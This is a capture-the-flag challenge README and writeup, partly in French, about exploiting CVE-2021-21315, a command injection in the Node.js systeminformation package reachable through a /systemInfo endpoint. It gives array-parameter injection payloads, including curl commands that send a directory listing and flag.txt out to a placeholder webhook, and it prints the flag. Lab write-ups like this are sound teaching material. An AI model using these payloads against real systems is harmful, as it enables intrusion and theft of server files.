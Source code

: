 # Quotes-A-Day 2 (API2)

> Web <br>
> Author: @Strix

# Challenge

OK, we've patched the previous vulnerability and finally implemented our new system health check feature. Users can now
query our **system information** to check if the service is available or not and make sure to get their daily quote!

FLAG: `FLAG{0WASP_T0P_9_PATCH_Y0UR_NPM_PACKAG3S}`

## Outils nécessaires

- docker-compose

## Exécution

```bash
docker-compose up --build --force-recreate --renew-anon-volumes
```

## Writeup

Le défi ici est une vulnérabilité d'injection de commande dans un package très populaire de nodejs appelée [systeminformation](https://www.npmjs.com/package/systeminformation).
Le package a une vulnérabilité dans 4 fonctions dans lesquels un utilisateur fournit du input non filtré/_santized_.

L'injection de commande se produit ici par l'utilisation d'un tableau plutôt que d'une chaîne, en raison d'un manque de filtrage dans l'une des fonctions du package. (CVE-2021-21315)

Le endpoint `GET /systemInfo` requiert un paramètre `service`.

`GET /systemInfo?service=mongod` renverrait l'état actuel du processus mongod, mais

`/systemInfo?service[]=$(echo 'command injection')` injecterait la commande, puisque `systeminformation.services(<USERINPUT>)` ne _sanitize_ pas les tableaux/listes/arrays, mais uniquement les chaînes de caractères.

L'utilisateur n'a donc qu'à parcourir le répertoire pour trouver le flag.txt. 

```curl
GET /systemInfo?service[]=$(ls -la > out.txt && curl --form "data=@out.txt" <SERVER/WEBHOOK>)
```

```curl
GET /systemInfo?service[]=$(curl --form "data=@flag.txt" <WEBHOOK>)
```
